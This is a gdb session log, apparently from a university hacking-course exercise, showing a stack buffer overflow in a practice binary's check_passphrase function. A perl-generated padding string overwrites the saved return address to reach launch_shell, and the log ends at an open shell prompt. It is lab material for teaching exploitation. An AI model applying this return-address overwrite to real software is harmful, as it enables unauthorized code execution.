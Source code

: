 ```plaintext
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x5555555551ba in check_passphrase (functions.c:13); saved rip = 0x5555555551e641
 called by frame at 0x7fffffffdeb8
 source language c.
 Arglist at 0x7fffffffde18, args: passphrase=0x7fffffffe3ec 'A' <repeats 121 times>, "\346QUUUU"
 Locals at 0x7fffffffde18, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rip at 0x7fffffffdea8
(gdb) print "one byte too many"
$4 = "one byte too many"
(gdb) run "$(perl -e 'print "A"x120')$(reverseaddr 0x5555555551e6)"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/thom/git/teaching/hackinginc/2020/exercises/ass4/assignment4/functions "$(perl -e 'print "A"x120')$(reverseaddr 0x5555555551e6)"
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUUUU
* [DEBUG] The function launch_shell is at 0x5555555551e6

Breakpoint 1, check_passphrase (passphrase=0x0) at functions.c:10
10      int check_passphrase(char* passphrase) {
(gdb) n
12        strcpy(buffer, passphrase);
(gdb) n
13        if(strcmp(passphrase, "the magic words are squeamish ossifrage") == 0)
(gdb) info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x5555555551ba in check_passphrase (functions.c:13); saved rip = 0x5555555551e6
 called by frame at 0x7fffffffdec8
 source language c.
 Arglist at 0x7fffffffde28, args: passphrase=0x7fffffffe3ed 'A' <repeats 120 times>, "\346QUUUU"
 Locals at 0x7fffffffde28, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rip at 0x7fffffffdeb8
(gdb) c
Continuing.
Launching shell.
[Detaching after vfork from child process 35651]
[thom@oceanus assignment4]$
```
